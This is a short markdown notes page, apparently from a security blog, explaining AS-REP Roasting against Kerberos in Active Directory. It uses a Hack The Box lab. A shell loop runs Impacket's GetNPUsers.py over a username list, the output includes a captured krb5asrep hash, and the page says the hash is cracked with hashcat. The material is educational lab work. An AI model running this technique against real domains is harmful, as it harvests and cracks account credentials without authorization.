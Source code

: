 +++
title = "AS-REP Roasting"
author = ["svejk"]
draft = false
+++

## AS-REP Roasting {#as-rep-roasting}

Two key attacks on [Kerberos]({{<relref "posts/kerberos.md#" >}}) security in Active Directory include [kerberoasting]({{<relref "posts/kerberoasting.md#" >}}) and AS-REP Roasting. Kerberoasting typically requires credentials on the domain to authenticate with. There is an option for an account to have the property “Do not require Kerberos preauthentication” or UF\_DONT\_REQUIRE\_PREAUTH set to true. AS-REP Roasting is an attack against Kerberos for these accounts.

Use the [Impacket]({{<relref "posts/impacket.md#" >}}) tool `GetNPUsers.py` to try to get a hash for each user

```shell
λ ~/ctf/htb/forest/ for user in $(cat usernames.txt); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done

[*] Getting TGT for sebastien
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for lucinda
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:25311259ddd6d0e65a4ae2cd898c547b$2328b382956004167ef612abbfd0b3350d362f386d70deadf093d73dd33fadea8bf648d3d7c1cab3565b508a9dafb06cb399ac26e04521ffa22edc882213994257e53976a81b78aaf49dfe02da14f6f76fc7def2a7d4e7e8ff696efa29a1ac4a8df2c0f7856df3c7aa7bbff60e93c1e1fbfc538745a0ffefa3f383d68ddfb4984d1194bc56cc9d168b69a512901815da53cba71a2d0a13c6369fd1b74b9ce3367119502354b2cae4ae3096e5ba4a041fa8a0d1d7f4a92c0f47d2c6ee7bcc73b7f2c3b10955799c807bf43d3035488fb385c68568e770d87d771343e16266ea8f

[*] Getting TGT for andy
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for mark
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for santi
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

The hash is quickly cracked with `hashcat`.